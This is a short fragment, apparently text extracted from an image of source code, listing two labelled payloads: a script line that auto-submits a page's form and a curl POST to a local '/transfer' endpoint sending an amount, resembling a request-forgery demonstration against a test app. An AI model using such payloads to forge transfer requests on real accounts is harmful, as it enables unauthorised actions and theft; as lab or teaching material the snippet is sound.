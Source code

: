 Payload 1
document.forms[0].submit()

Payload 2
curl 'http://localhost:8080/transfer' -X POST --data-raw 'amount=1000'